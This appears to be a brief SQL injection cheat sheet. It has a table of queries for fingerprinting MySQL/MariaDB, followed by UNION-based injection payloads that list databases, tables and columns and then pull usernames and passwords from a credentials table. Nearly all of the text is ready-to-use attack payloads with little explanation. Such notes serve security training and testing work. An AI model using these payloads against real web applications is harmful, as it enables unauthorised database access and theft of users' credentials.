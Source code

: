 he following queries and their output will tell us that we are dealing with `MySQL`:

|Payload|When to Use|Expected Output|Wrong Output|
|---|---|---|---|
|`SELECT @@version`|When we have full query output|MySQL Version 'i.e. `10.3.22-MariaDB-1ubuntu1`'|In MSSQL it returns MSSQL version. Error with other DBMS.|
|`SELECT POW(1,1)`|When we only have numeric output|`1`|Error with other DBMS|
|`SELECT SLEEP(5)`|Blind/No Output|Delays page response for 5 seconds and returns `0`.|Will not delay response with other DBMS|

Get information about users
```sql
SELECT * FROM my_database.users;
```

get schemata
```shell-session
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;
```
union injection
```sql
' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```
get current database name
```sql
cn' UNION select 1,database(),2,3-- -
```
get table names from database dev
```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```
get column names
```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```
get data from database.table
```sql
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```